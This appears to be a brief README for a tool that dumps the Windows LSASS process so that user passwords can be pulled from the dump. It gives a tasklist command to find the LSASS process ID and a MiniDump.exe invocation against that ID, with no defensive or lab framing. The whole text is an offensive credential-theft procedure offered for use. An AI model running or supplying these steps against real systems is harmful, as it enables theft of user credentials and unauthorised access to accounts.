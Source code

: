 # Extracting user passwords from lsass.exe dumps

Get the PID of the lsass process with `tasklist`

```
tasklist /FI "IMAGENAME eq lsass.exe"
```

Run MiniDump.exe with the PID of lsass.exe as the first argument.

```
MiniDump.exe <PID>
```